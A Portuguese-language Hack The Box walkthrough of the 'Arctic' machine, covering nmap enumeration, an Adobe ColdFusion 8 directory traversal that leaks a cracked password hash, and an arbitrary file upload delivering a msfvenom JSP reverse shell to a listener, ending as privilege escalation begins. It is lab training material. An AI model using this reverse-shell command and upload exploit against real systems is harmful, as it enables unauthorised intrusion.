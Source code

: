```yaml
---
title:     "Hack The Box - Arctic"
tags: [windows,easy,ColdFusion,CVE-2010-2861]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/1.jpg)

## Enumeration

Iniciamos com nosso nmap 

```
root@kali:~/HTB-Windows/arctic# nmap -Pn -p- -T4 -oN nmap/allports_tcp 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 18:27 EDT
Stats: 0:02:38 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 55.64% done; ETC: 18:32 (0:02:06 remaining)
Nmap scan report for 10.10.10.11
Host is up (0.21s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 299.41 seconds
```

3 portas abertas, vamos continuar com a enumeracao

```
root@kali:~/HTB-Windows/arctic# nmap -sV -sC -p135,8500,49154 -oN nmap/specific_ports 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 18:45 EDT
Stats: 0:00:47 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 18:48 (0:01:32 remaining)
Nmap scan report for 10.10.10.11
Host is up (0.19s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.13 seconds
```

fmtp?  Geralmente eu comeco pelas portas que seja mais desconhecidas, mas isso vai de cada um...

Como eu nao sei qual servico esta realmente rodando nessa porta, eu usei o proprio NC em modo verbose, mas nao foi muito util

tentei o amap tbm, mas nada de identificar

```
root@kali:~/HTB-Windows/arctic# amap -1 10.10.10.11 8500
amap v5.4 (www.thc.org/thc-amap) started at 2020-06-24 19:11:00 - APPLICATION MAPPING mode


Unidentified ports: 10.10.10.11:8300/tcp (total 1).

amap v5.4 finished at 2020-06-24 19:11:12
```

No entanto, como eh uma port 8500 e na maioria das vezes portas 8080,8081,8090 nessa faixa tem um servico web envolvido, entao eu acessei via browser 

**reference** http://www.networksorcery.com/enp/protocol/ip/ports08000.htm

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/2.jpg)

## Exploitation

Navegando nos diretorios encontrados e fazendo uma busca rapida no google podemos identificar que trata-se de um produto do ADOBE nossa missao agora eh identificar sua versao e/ou buscar exploits para isso.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/3.jpg)

Encontrei 2 exploracoes interessantes, **Adobe ColdFusion - Directory Traversal** e **Adobe ColdFusion 2018 - Arbitrary File Upload** 

Acabei de testar o Directory Traversal e esta vuln

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/4.jpg)

Crack HASH rapiamente buscando no google encontramos a senha relacionada a hash encontrada

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/5.jpg)


```
 #Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
 SENHA: happyday
```

Tentei login com  a senha encontrada, mas sem sucesso

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/6.jpg)

Vamos tentar entao a segunda exploracao que encontramos **Adobe ColdFusion 2018 - Arbitrary File Upload**

## Reverse Shell

Depois de algumas pesquisas encontrei um exploit funcional https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload

Entao, gerei meu payload em jsp com o seguinte comando abaixo https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

` msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=53 -f raw > shell.jsp`

Start seu ouvinte na porta escolhida usando o nc, neste caso eu usei a porta 53

```
root@kali:~/HTB-Windows/arctic# rlwrap nc -nlvp 53
listening on [any] 53 ...
```

Execute o exploit

```
root@kali:~/HTB-Windows/arctic# python exploit.py 
Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp
root@kali:~/HTB-Windows/arctic# python exploit.py 10.10.10.11 8500 /root/HTB-Windows/arctic/shell.jsp 
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

E acesse via browser a URL http://10.10.10.11:8500/userfiles/file/exploit.jsp

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/7.jpg)

## Privilege Escalation

Comecamos entao a fase de escalada, vamos la...

```
root@kali:~/HTB-Windows/arctic# rlwrap nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.11] 49650
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\ColdFusion8\runtime\bin>

```

Agora usando o systeminfo transferimos seu output paara nosso localhost

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/8.jpg)




